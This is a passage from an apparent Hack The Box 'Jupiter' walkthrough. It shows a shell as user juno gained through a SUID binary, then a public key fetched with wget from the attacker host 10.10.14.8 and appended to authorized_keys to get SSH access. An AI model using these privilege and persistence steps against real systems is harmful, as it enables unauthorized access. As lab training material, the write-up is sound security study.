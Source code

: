```bash
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

Got `juno` user shell:
```bash
postgres@jupiter:/dev/shm$ /tmp/nop -p
nop-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) groups=120(postgres),119(ssl-cert)
```


I'm ont able to read the user.txt file, so let's get a real SSH connection:
```bash
nop-5.1$ cat /home/juno/user.txt
cat: /home/juno/user.txt: Permission denied

nop-5.1$ wget http://10.10.14.8:6666/id_rsa.pub
--2023-08-21 14:21:30--  http://10.10.14.8:6666/id_rsa.pub
Connecting to 10.10.14.8:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 415 [application/vnd.exstream-package]
Saving to: ‘id_rsa.pub’

id_rsa.pub          100%[===================>]     415  --.-KB/s    in 0s

2023-08-21 14:21:30 (32.7 MB/s) - ‘id_rsa.pub’ saved [415/415]

nop-5.1$ ls
id_rsa.pub  network-simulation.yml  PostgreSQL.1375183350  shadow.data
nop-5.1$ cat id_rsa.pub >> /home/juno/.ssh/authorized_keys
```

Now we are in:
```bash
.../htb/p8/jupiter➤ ssh juno@jupiter.htb
Last login: Mon Aug 21 14:22:53 2023 from 10.10.14.8
...
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
juno@jupiter:~$ ls
shadow  shadow-simulation.sh  user.txt
```
